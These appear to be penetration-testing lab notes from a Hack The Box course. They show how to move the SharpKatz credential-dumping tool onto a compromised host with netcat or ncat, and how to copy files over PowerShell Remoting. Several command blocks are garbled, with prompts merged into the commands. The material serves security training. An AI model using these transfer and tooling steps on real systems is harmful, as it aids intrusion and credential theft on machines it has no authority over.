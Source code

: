 **Netcat (nc):**

- Netcat is a computer networking tool that is used for reading from and writing to network connections using TCP and UDP, **which means we can use it for File Transfers!**

**File Transfers w/ Netcat**

- Compromised machine - listening on port 8000.

```bash
victim@target:~$ # Example using Original Netcatvictim@target:~$ nc -l -p 8000 > SharpKatz.exe
```

- Using our attack host, we will connect to the compromised machine over port 8000 using Netcat and send the file SharpKatz.exe as input to Netcat.

Attack host sending file to compromised machine:

```bash
realCustampin@htb[/htb]$ wget -q <https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exerealCustampin@htb[/htb]$> # Example using Original NetcatrealCustampin@htb[/htb]$ nc -q 0 192.168.49.128 8000 < SharpKatz.exe
```

- The above example is sending the file to the compromised host via the old netcat

Using Ncat on our attacking host, we specify the —send-only parameter

```bash
realCustampin@htb[/htb]$ wget -q <https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exerealCustampin@htb[/htb]$> # Example using NcatrealCustampin@htb[/htb]$ ncat --send-only 192.168.49.128 8000 < SharpKatz.exe
```

**Windows Powershell Transfers without HTTP, SMB, HTTPS**

- We can use Powershell Remoting, aka WinRM to perform file transfers.
- Powershell Remoting allows us to execute scripts or commands on a remote computer using PowerShell sessions.
- By default, enabling powershell remoting creates both an HTTP and an HTTPS listener.
    - TCP/5985 for HTTP
    - TCP/5986 for HTTPS
- Requires admin privileges, member of the Remote Managment Users group, or have explicit permissions for Powershell Remoting.

**From DC01 - Confirm WinRM port TCP 5985 is Open on DATABASE01:**

```powershell
PS C:\\htb> whoami

htb\\administrator

PS C:\\htb> hostname

DC01
```

```powershell
PS C:\\htb> Test-NetConnection -ComputerName DATABASE01 -Port 5985

ComputerName     : DATABASE01
RemoteAddress    : 192.168.1.101
RemotePort       : 5985
InterfaceAlias   : Ethernet0
SourceAddress    : 192.168.1.100
TcpTestSucceeded : True
```

Below we are assigning the $Session variable with DATABASE01: `PS C:\\htb> $Session = New-PSSession -ComputerName DATABASE01`

And now, we can use the Copy-Item cmdlet and can copy the data from our [Localhost](http://Localhost) to the DATABASE01 session: `PS C:\\htb> Copy-Item -Path C:\\samplefile.txt -ToSession $Session -Destination C:\\Users\\Administrator\\Desktop\\`

Let’s try to copy an item over from DATABASE01 to [Localhost](http://Localhost): `PS C:\\htb> Copy-Item -Path "C:\\Users\\Administrator\\Desktop\\DATABASE.txt" -Destination C:\\ -FromSession $Session`

- `Active Directory Enumeration and Attacks` - Skills Assessments 1 & 2
- Throughout the `Pivoting, Tunnelling & Port Forwarding` module
- Throughout the `Attacking Enterprise Networks` module
- Throughout the `Shells & Payloads` module